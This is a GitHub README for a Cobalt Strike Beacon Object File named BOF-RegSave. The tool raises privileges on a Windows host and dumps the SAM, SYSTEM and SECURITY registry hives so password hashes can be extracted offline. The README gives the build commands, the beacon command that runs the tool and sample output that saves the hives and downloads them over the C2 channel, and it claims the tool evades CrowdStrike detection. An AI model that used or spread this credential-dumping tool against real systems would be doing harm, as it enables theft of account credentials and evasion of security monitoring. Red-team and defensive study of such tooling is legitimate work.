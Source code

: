 # About
Beacon Object File(BOF) for CobaltStrike that will acquire the necessary privileges and dump SAM - SYSTEM - SECURITY registry keys for offline parsing and hash extraction.

It will write 3 'temporary files' containing the SYSTEM, SAM and SECURITY hives to the standard temporary directory. They can then be downloaded and deleted from the host system.

## Compiling

Compiled BOFs provided for ease, but otherwise just run `make` in the root directory.

```
[stuart@ubuntu ~/dev/github.stufus/BOF-RegSave]$ make
x86_64-w64-mingw32-gcc -o source/entry_x64.o -c source/entry.c -Os -s -Qn -nostdlib  -Wl,-s,--exclude-all-symbols
x86_64-w64-mingw32-strip -N entry.c source/entry_x64.o
i686-w64-mingw32-gcc -o source/entry_x86.o -c source/entry.c -Os -s -Qn -nostdlib  -Wl,-s,--exclude-all-symbols
i686-w64-mingw32-strip -N entry.c source/entry_x86.o
x86_64-w64-mingw32-ld -x -r source/*_x64.o -o regdump.x64.o
i686-w64-mingw32-ld -x -r source/*_x86.o -o regdump.x86.o
```

## Instructions

Install the CNA script and run the `bof-regsave` command.

## Example

```
beacon> bof-regsave
[+] host called home, sent: 2336 bytes
[+] received output:
regsave: SYSTEM hive saved to C:\Users\IT07C5~1.USE\AppData\Local\Temp\tmp4815.tmp
regsave: SAM hive saved to C:\Users\IT07C5~1.USE\AppData\Local\Temp\tmp4813.tmp
regsave: SECURITY hive saved to C:\Users\IT07C5~1.USE\AppData\Local\Temp\tmp4814.tmp
```

Those files can then be downloaded using the `download` command.

## Detection

At the time of writing (15/July/2022), this is not detected by Crowdstrike in aggressive mode.

## Credits

Template & Makefile based on repo from [@realoriginal](https://github.com/realoriginal/beacon-object-file)

## Change Log
[@ukstufus] Automatically obtain and create temporary files for ease of use (and a little stealth), using beacon output
formatting for tidier output, minor debugging changes.

## Reading material for BOF

[CS Beacon Object Files](https://www.cobaltstrike.com/help-beacon-object-files)

[Aggressor-Script functions](https://www.cobaltstrike.com/aggressor-script/functions.html)

[Beacon Object Files - Luser Demo](https://www.youtube.com/watch?v=gfYswA_Ronw)

[A Developer's Introduction To Beacon Object Files](https://www.trustedsec.com/blog/a-developers-introduction-to-beacon-object-files/)

_Github repos_

```
https://github.com/rsmudge/ZeroLogon-BOF
https://github.com/rsmudge/CVE-2020-0796-BOF
https://github.com/trustedsec/CS-Situational-Awareness-BOF
https://github.com/tomcarver16/BOF-DLL-Inject
https://github.com/m57/cobaltstrike_bofs/
https://github.com/rvrsh3ll/BOF_Collection/
https://github.com/realoriginal/bof-NetworkServiceEscalate
```

## Author
[@leftp](https://github.com/leftp)
